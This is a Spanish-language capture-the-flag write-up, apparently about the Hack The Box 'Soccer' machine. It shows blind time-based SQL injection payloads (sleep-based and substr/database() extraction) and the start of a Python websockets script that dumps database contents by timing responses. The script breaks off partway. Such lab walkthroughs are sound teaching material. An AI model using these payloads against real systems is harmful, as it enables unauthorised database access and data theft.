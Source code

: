 ***SQL Injection Blind (SQLI Blind)*** es un tipo de ataque de inyección de SQL que se utiliza para explotar vulnerabilidades en una aplicación web. Se llama *blind* (ciego) porque el atacante no recibe una respuesta directa del servidor como resultado de su ataque.

En este caso, si empleamos el payload:

```python
{"id":"1 or sleep(5)"}
```

el servidor tardará 5 segundos en respondernos, pero no nos dará ningún tipo de error. Por eso mismo, el ***SQLI*** tradicional (*Error Based*) no funcionaría, ya que en este nos basamos en el error para volcar la información de la base de datos.

La imagen de abajo es una foto del *Repeater* con el *payload* malicioso en la izquierda y en la derecha la respuesta del servidor:

![imagen 5](image5.png)

En este punto que ya sabemos que es vulnerable a este tipo de ataque, podemos aprovecharnos del tiempo para **volcar toda la información de la base de datos**. Usaremos *python3* para desarrollar los *scripts*.

#### Base de datos en uso

Como se está utilizando ***web sockets***, la forma de operar será diferente en cuanto a desarrollo de *scripts* se refiere. En este caso, deberemos definir una función asíncrona que se encargara de enviar el *input* a *ws://soc-player.soccer.htb:9091/*. 

Utilizaremos el siguiente ***payload*** para volcar la base de datos en uso:

```python
"{"id":"1 or if(substr((database()),{position},1)='{letter}',sleep(2),1)}"
```

***{position}*** y ***{letter}*** son dos variables que forman parte de un doble bucle anidado. ***{position}*** se utilizará para iterar por cada posición del nombre de la base de datos en uso y ***{letter}*** para iterar por cada letra por cada posición de la base de datos actual. ***database()*** es una directiva de MySQL que contiene el nombre de la base de datos actual. 

Por tanto, si una letra en una posición concreta es correcta (la sentencia *if* se cumple), el servidor tardará en este caso 2 segundos en responder (***sleep(2)***). 

A continuación dejo el script:

```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.ascii_lowercase
burp = {'http':'http://127.0.0.1:8080'}
bbdd = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
```